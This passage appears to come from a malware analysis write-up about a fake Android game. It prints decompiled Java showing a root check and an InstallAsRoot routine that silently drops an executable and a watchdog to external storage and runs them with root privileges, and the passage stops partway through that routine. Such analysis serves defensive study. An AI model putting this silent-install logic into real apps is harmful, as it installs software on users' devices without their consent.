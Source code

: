 Since it's a fake game, I was not surprised to see the name of the library cocos2D. I then opened the file `AppActivity` and found:

> ```java
>public class AppActivity extends UtilActivity{
>	protected void onCreate(Bundle paramBundle){
>		super.onCreate(paramBundle);
>	} 
>	protected void onNewIntent(Intent paramIntent){
>		super.onNewIntent(paramIntent);
>	}
>}
> ```

and in the parent class, something jumped out at me:

![install_util](util_install.png)

The malware checks if the device is rooted with the library [RootShell](https://github.com/Stericson/RootShell). However, in any case, some stuffs are installed
without user's agreement while the game is launched.

### Rooted device

The decompiled code of the routine `InstallAsRoot` is as follows:

> ```java
>private boolean InstallAsRoot(){
>	try{
>		InputStream inputStream = getResources().openRawResource(R.raw.aps_exec);
>		InputStream inputStream1 = getResources().openRawResource(R.raw.aps_exec_watch_dog);
>		WriteRawResources(inputStream, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context));
>		WriteRawResources(inputStream1, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context));
>		if (RootCommandExecutor.Execute(this.context)) {
>			return true;
>		}
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();